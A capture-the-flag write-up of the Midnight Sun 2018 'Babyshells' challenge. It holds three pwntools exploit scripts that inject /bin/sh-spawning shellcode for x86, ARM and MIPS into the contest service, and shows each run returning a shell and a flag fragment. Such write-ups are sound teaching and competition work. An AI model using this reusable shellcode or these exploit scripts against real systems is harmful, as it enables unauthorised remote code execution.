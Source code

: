 ```yaml
---
title: "Midnight Sun 2018 - Babyshells (Pwn)"
header:
  overlay_image: /assets/images/midnightsun2018/babyshells/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Anh Nguyen on Unsplash"

tags:
  - midnightsun2018
  - writeup
  - pwn
---
```


Exploiting the same 'vulnerable' binary on three different architectures: x86,
ARM, MIPS.

## Challenge Description

```
If you hold a babyshell close to your ear, you can hear a stack getting smashed

Service: nc 52.30.206.11 7000 (x86) | nc 52.30.206.11 7001 (ARM) | nc 52.30.206.11 7002 (MIPS)
```

#### Points

Points: 50

Solves: 71

Author: likvidera

## Solution

Straightforward challenge that jumps to your shellcode.

### x86

Exploit script for x86:

```python
from pwn import *

shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

def main():
    #p = remote("localhost", 7000)
    p = remote("52.30.206.11", 7000)

    p.sendline("1")
    payload = shellcode.ljust(500, "\x90")

    p.send(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Running it:

```shell
$ python exploit_x86.py
[+] Opening connection to 52.30.206.11 on port 7000: Done
[*] Switching to interactive mode

MENU
 1) Pwn
 2) Quit
 > gimme gimme: pwning!
$ cat flag
midnight{pwn_all_the_x86_
$
```

### ARM

Exploit script for ARM:

```python
from pwn import *

shellcode = "A"*40 + "01308fe213ff2fe102a049405240c2710b2701df2f62696e2f736878".decode("hex")

def main():
    #p = remote("localhost", 7001)
    p = remote("52.30.206.11", 7001)

    p.sendline("1")
    payload = shellcode.ljust(500, "\x90")

    p.send(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Running it:

```shell
 python exploit_arm.py
[+] Opening connection to 52.30.206.11 on port 7001: Done
[*] Switching to interactive mode
MENU
 1) Pwn
 2) Quit
 > gimme gimme: pwning!
$ cat flag
pwn_all_th3_4rm$
```

### MIPS

Exploit for MIPS:

```python
from pwn import *

shellcode = (
        "\x28\x06\xff\xff"
        "\x3c\x0f\x2f\x2f"
        "\x35\xef\x62\x69"
        "\xaf\xaf\xff\xf4"
        "\x3c\x0e\x6e\x2f"
        "\x35\xce\x73\x68"
        "\xaf\xae\xff\xf8"
        "\xaf\xa0\xff\xfc"
        "\x27\xa4\xff\xf4"
        "\x28\x05\xff\xff"
        "\x24\x02\x0f\xab"
        "\x01\x01\x01\x0c\n"
        )

def main():
    #p = remote("localhost", 7002)
    p = remote("52.30.206.11", 7002)

    p.sendline("1")
    payload = shellcode.ljust(500, "\x90")

    p.send(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Running it:

```shell
$ python exploit_mips.py
[+] Opening connection to 52.30.206.11 on port 7002: Done
[*] Switching to interactive mode
MENU
 1) Pwn
 2) Quit
 > gimme gimme: pwning!
$ cat flag
_pWN_4ll_th3_m1p5}
$
```

Flag: **midnight{pwn\_all\_the\_x86\_pwn\_all_th3\_4rm\_pWN\_4ll\_th3\_m1p5}**

